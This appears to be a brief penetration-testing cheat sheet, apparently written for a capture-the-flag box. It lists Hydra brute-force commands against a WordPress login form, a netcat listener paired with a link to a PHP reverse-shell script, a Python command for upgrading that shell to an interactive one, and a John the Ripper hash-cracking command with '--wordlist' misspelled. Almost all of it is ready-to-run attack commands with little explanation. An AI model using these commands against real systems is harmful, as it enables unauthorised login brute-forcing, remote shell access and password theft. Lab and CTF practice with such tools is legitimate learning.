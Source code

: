 _______________________________________________________________________________
Hydra for web:
- with list: ```hydra -L usernameList.txt -P PasswordList.txt 10.10.12.13 http-post-form "/wp-login.php: log=^USER^&pwd=^PWD^: Invalid username"```
- singular username and password: ```hydra -l username -p fsocity dic 10.10.12.13 http-post-form "/wp-login.php: log=^USER^&pwd=^PWD^: Invalid username"```
_______________________________________________________________________________
Reverse Shell - php:
  rlwrap nc -lnvp 53
  Use this php script to send us a reverse shell from the target side - pentestmonkey :
    https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

because reverse shells don't spawn in an interactive shell, this command can spawn an interactive shell in the reverse shell:
    python -c 'import pty;pty.spawn("/bin/bash")'

For more exploits check out this cheat sheet:
    https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

_______________________________________________________________________________
John the Ripper:
  john --worlist=/directory/to/worlist --format=[type of hash] [file with hash inside].txt

